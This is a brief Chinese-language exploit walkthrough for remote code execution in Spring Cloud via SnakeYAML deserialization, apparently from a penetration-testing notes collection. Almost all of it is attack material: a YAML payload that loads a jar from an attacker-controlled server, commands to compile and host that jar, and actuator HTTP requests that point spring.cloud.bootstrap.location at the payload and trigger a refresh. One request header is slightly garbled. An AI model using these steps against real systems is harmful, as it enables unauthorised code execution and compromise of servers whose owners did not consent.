

# spring cloud SnakeYAML RCE
#### 搜索`spring-cloud-starter`查看版本是否小于1.3.0.RELEASE

#### 修改yaml-payload.yml配置文件
```xml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://<yourVPS:8888>/yaml-payload.jar"]
  ]]
]
```
#### 修改AwesomeScriptEngineFactory.java文件中执行命令代码,然后编译并打成jar包,生成yaml-payload.jar
`javac yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C yaml-payload/src/ .`
#### 将jar文件和yml文件托管到http服务
`python3 -m http.server 80`  

#### 发送设置spring.cloud.bootstrap.location属性数据包
- spring 1.x  
```
POST /env
Host: x.x.x.x
Content-Type: application/x-222-form-urlencoded

spring.cloud.bootstrap.location=http://192.168.43.183:8888/yaml-payload.yml
```

- spring 2.x  
```
POST /actuator/env
Host: x.x.x.x
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"yourVPSip/yaml-payload.yml"}
```
#### 发送刷新配置数据包
- spring 1.x
```
POST /refresh
Host: x.x.x.x
Content-Type: application/x-www-form-urlencoded
```

- spring 2.x
```
POST /actuator/refresh
Host: x.x.x.x
Content-Type: application/json
```